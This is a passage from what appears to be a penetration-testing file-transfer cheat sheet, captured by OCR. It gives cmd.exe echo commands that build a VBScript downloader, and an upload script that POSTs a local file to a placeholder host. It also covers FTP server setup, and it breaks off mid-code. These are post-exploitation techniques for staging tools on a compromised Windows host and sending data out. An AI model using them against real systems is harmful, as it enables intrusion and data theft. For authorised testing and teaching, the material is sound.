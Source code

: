 	echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
	echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
	echo Next >> wget.vbs
	echo ts.Close >> wget.vbs
	```
	- correct file size
		- 990 wget.vbs
	- usage
	```cmd
	cscript wget.vbs http://<ip_address>:8090/<file_name> <file_name>
	```

- **Client** commands in cmd.exe to create **upload** script (change `<ip_to_upload>`)

	```cmd
	echo Dim strURL > wget_u.vbs
	echo Dim HTTP >> wget_u.vbs
	echo Dim dataFile >> wget_u.vbs
	echo Dim dataRequest >> wget_u.vbs
	echo Dim objStream >> wget_u.vbs
	echo strURL = "http://<ip_to_upload>/" >> wget_u.vbs
	echo Set HTTP = CreateObject("Microsoft.XMLHTTP") >> wget_u.vbs
	echo Set objStream = CreateObject("ADODB.Stream") >> wget_u.vbs
	echo objStream.Type = 2 >> wget_u.vbs
	echo objStream.Open >> wget_u.vbs
	echo objStream.LoadFromFile "http.txt" >> wget_u.vbs
	echo dataFile = objStream.ReadText >> wget_u.vbs
	echo dataRequest = "dataFile=" ^& dataFile >> wget_u.vbs
	echo HTTP.open "POST", strURL, False >> wget_u.vbs
	echo HTTP.setRequestHeader "Content-Type", "application/x-www-form-urlencoded" >> wget_u.vbs
	echo HTTP.setRequestHeader "Content-Length", Len(dataRequest) >> wget_u.vbs
	echo WScript.Echo "Now uploading file G:\Http\http.txt" >> wget_u.vbs
	echo HTTP.send dataRequest >> wget_u.vbs
	echo WScript.Echo HTTP.responseText >> wget_u.vbs
	echo Set HTTP = Nothing >> wget_u.vbs
	```
	- usage

-------------------------------

## ftp (File Transfer Protocol)

- about tool and protocol
	- default server ports: 20, 21
	- use mode `binary` whenewher you can
- **Server**	setup in `bash`
	- _Method 1_ (via pure-ftpd package)
	```bash
	apt-get update && apt-get install pure-ftpd -y
	groupadd ftpgroup
	useradd -g ftpgroup -d /dev/null ftpuser 
	mkdir -p /home/ftpuser
	pure-pw useradd ftpuser -u ftpuser -d /home/ftpuser
	pure-pw mkdb
	```
	With `pure-pw useradd` you must setup a password for a user (it can be blank)
	```bash
	cd /etc/pure-ftpd/auth/
	ln -s ../conf/PureDB 60pdb
	chown -R ftpuser:ftpgroup /home/ftpuser
	/etc/init.d/pure-ftpd restart
	```
	- _Method 2_ via python module `python-pyftpdlib ` (flag `-w` allows to write in server's folder)
	```bash